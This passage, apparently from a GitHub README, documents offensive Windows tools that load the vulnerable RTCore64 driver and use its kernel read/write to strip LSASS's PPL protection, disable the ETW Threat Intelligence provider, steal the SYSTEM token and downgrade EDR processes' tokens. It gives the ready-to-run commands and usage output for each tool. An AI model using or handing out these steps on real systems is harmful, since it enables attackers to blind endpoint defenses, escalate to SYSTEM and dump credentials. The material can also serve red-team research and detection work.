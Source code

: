 #### Example lsass
- Example removing runasppl from LSASS process by setting the protection value to `0x00`

```powershell
PS C:\ > .\ProtectionChanger.exe -v 0x00 -p (Get-Process -Name lsass).id
```

## ETwTi Remover
- What does it do
	- Calculates and prints offsets by downloading symbols from the internet as in EDRSandBlast project
	- Writes vulnerable RTCore64 driver to `C:\Windows\System32\Drivers\RTCore64.sys` and loads the driver
	- Disables or enables ETwTi using the read and write IOCTL writing to the `ProviderEnableInfo` field
	- Unloads the RTCore64 driver and removes the file from `C:\Windows\System32\Drivers\RTCore64.sys`
- Filenames can be configured in `config.h`

```powershell
PS C:\ > .\ETwTiRemover.exe
Usage: ETwTiRemover.exe -e / -d
Options:
  -e Enable ETwTi     - set ProviderEnableInfo field within the GUID entry to 0x1
  -d Disable ETwTi    - set ProviderEnableInfo field within the GUID entry to 0x0
  -h Display this help message.
```

#### Example Disabling ETwTi

```powershell
PS C:\ > .\ETwTiRemover.exe -d
```

## Token Changer
- What does it do
	- Calculates and prints offsets by enumerating windows version with `RtlGetVersion`
		- Update offsets with [vergiliusproject](https://www.vergiliusproject.com/kernels/x64/windows-11/24h2/_EPROCESS) 
	- Writes vulnerable RTCore64 driver to `C:\Windows\System32\Drivers\RTCore64.sys` and loads the driver
	- Gets base address of `Ntoskrnl.exe` and calculates `PsInitialSystemProcess` offset
	- Changes the token value by reading the `_EX_FAST_REF Token` value and writing it into the other process using the read and write IOCTL
	- Unloads the RTCore64 driver and removes the file from `C:\Windows\System32\Drivers\RTCore64.sys

```
PS C:\ > .\TokenChanger.exe
Usage: TokenChanger.exe --tp <PID> --sp <PID>
Usage: TokenChanger.exe --edr
Usage: TokenChanger.exe --edr --sp <PID>
Options:
  --tp <pid>             Specify the target process ID (PID) to replace the token of
  --sp <pid>             Specify the source process ID (PID) to clone the token from
  --edr                  Specify to downgrade the token of all EDR processes
  --spawnsystem          Specify to spawn a new process and steal token from system
  -h                     Display this help message.
```
